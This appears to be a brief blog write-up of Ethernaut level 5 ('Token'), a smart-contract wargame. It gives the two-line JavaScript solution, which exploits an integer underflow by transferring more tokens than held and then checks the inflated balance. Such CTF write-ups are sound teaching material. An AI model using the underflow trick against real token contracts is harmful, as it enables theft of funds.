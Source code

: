 +++
title = 'Ethernaut Level 5 - Token'
date = 2024-04-08 03:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Integer overflow to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```js
await contract.transfer(contract.address, 21);
Number(await contract.balanceOf(player));
```
